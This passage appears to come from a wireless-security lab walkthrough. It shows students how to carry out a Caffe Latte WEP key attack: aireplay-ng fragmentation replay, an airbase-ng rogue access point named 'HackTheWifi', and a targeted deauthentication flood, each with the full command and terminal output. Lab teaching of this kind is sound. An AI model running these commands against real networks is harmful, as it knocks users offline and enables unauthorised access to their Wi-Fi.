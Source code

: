 Students will open a new terminal and use `aireplay-ng` to perform a Caffe Latte attack (`-6`) targeting the MAC addresses found in the `BSSID` and `STATION` columns in the `airodump-ng` output, respectively. Once a packet is found, students will use that packet. Note the MAC addresses may change upon target spawn or reset:

Code: shell

```shell
sudo aireplay-ng -6 -D -b D8:D6:3D:EB:29:D5 -h BE:BC:63:C4:BF:DC wlan0mon
```

```
wifi@WiFiIntro:~$ sudo aireplay-ng -6 -D -b D8:D6:3D:EB:29:D5 -h
BE:BC:63:C4:BF:DC wlan0mon

The interface MAC (02:00:00:00:01:00) doesn't match the specified MAC (-h).
	ifconfig wlan0mon hw ether BE:BC:63:C4:BF:DC
Saving ARP requests in replay_arp-1127-094350.cap
You should also start airodump-ng to capture replies.
Read 50 packets (0 ARPS, 0 ACKs), send 0 packets...(0 pps)
```

Next, students will open another terminal and use `airbase-ng` to act as a listener for the Caffe Latte attack, specifying channel 1, the MAC address of the access point, the name of the access point (`HackTheWifi`), interface, enabling the WEP mode with `-W`, and the `-L` to initiate the Cafe Latte attack:

Code: shell

```shell
sudo airbase-ng -c 1 -a D8:D6:3D:EB:29:D5 -e "HackTheWifi" wlan0mon -W 1 -L
```

```
wifi@WiFiIntro:~$ sudo airbase-ng -c 1 -a D8:D6:3D:EB:29:D5 -e "HackTheWifi" wlan0mon -W 1 -L

09:47:16  Created tap interface at0
09:47:16  Trying to set MTU on at0 to 1500
09:47:16  Trying to set MTU on wlan0mon to 1800
09:47:16  Access Point with BSSID D8:D6:3D:EB:29:D5 started.
```

Students will open another terminal and use `aireplay-ng` to perform deauthentication, while specifying the access point MAC address (`-a`) and the connected client's MAC address (`-c`):

Code: shell

```shell
sudo aireplay-ng -0 10 -a D8:D6:3D:EB:29:D5 -c BE:BC:63:C4:BF:DC wlan0mon
```

```
wifi@WiFiIntro:~$ sudo aireplay-ng -0 10 -a D8:D6:3D:EB:29:D5 -c BE:BC:63:C4:BF:DC wlan0mon

09:50:21  Waiting for beacon frame (BSSID: D8:D6:3D:EB:29:D5) on channel 1
09:50:21  Sending 64 directed DeAuth (code 7). STMAC: [BE:BC:63:C4:BF:DC] [ 0| 0 ACKs]
09:50:22  Sending 64 directed DeAuth (code 7). STMAC: [BE:BC:63:C4:BF:DC] [ 0| 0 ACKs]
09:50:22  Sending 64 directed DeAuth (code 7). STMAC: [BE:BC:63:C4:BF:DC] [ 0| 0 ACKs]
09:50:23  Sending 64 directed DeAuth (code 7). STMAC: [BE:BC:63:C4:BF:DC] [ 0| 0 ACKs]
09:50:23  Sending 64 directed DeAuth (code 7). STMAC: [BE:BC:63:C4:BF:DC] [ 0| 0 ACKs]
09:50:24  Sending 64 directed DeAuth (code 7). STMAC: [BE:BC:63:C4:BF:DC] [ 0| 0 ACKs]
09:50:24  Sending 64 directed DeAuth (code 7). STMAC: [BE:BC:63:C4:BF:DC] [ 0| 0 ACKs]
09:50:25  Sending 64 directed DeAuth (code 7). STMAC: [BE:BC:63:C4:BF:DC] [ 0| 0 ACKs]
09:50:25  Sending 64 directed DeAuth (code 7). STMAC: [BE:BC:63:C4:BF:DC] [ 0| 0 ACKs]
09:50:26  Sending 64 directed DeAuth (code 7). STMAC: [BE:BC:63:C4:BF:DC] [ 0| 0 ACKs]
```
